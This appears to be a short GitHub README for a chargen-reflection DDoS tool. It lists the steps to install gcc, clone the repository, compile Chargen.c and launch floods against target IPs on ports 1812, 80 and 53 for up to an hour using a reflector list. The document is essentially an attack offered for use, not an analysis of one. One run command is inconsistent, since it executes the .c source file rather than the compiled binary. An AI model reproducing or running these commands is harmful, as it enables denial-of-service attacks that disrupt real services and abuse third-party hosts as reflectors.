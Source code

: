 # DDOS-Attack-Chargen-Stable-Version
Chargen.c

-requirements:gcc package 
 apt-get update 
apt-get install gcc

-git clone https://github.com/Dev0uss/DDOS-Attack-Chargen-Stable-Version

-cd DDOS-Attack-Chargen-Stable-Version
 
-Compilation:
gcc -pthread Chargen.c -o chargen

-Execute
./Chargen.c IP 1812 chargen.txt 2 -1 3600

Other Examples:
# ./chargen TEST-IP 80 chargenliste.txt 2 -1 3600
# ./chargen TEST-IP 80 chargenliste.txt 1 -1 120
# ./chargen DNS-IP 53 chargenliste.txt 1 -1 120
